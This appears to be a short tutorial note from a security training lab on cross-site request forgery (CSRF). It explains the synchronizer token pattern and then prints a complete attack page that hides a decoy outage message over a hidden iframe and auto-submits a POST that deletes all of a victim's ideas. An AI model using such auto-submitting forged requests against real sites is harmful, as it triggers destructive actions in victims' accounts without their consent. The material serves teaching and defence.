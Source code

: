 # CSRF - POST

df

```markup
<form action="/ideas/delete_all" method="post">
  <input type="hidden" name="scope" value="all">
  <button class="button redB" id="delete_button" style="margin: 5px;">Delete All</button>
  <!-- Below line added dynamically to prevent CSRF Attack-->
  <input type="hidden" name="csrf-token" value="uRARsEXKdVjX6iUnQkDcfHiNqvG">
</form>
```

This technique of programmatically inserting random token values in every web page is known as the synchronizer token pattern

The pattern implements the generating of random "challenge" tokens that are associated with the user's current session, which are then verified for the existence and correctness of this token on the server side.

#### Attack page&#x20;

```markup
<html>
<body>
​
<p>We are experiencing some technical problems. Our website is expected to be back online shortly. We apologize for the inconvenience.</p>
​
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='https://tradeidea.codebashing.com/ideas/delete_all' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='scope' value='all'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
</body>
</html>
```

#### Why iframe

To avoid redirection
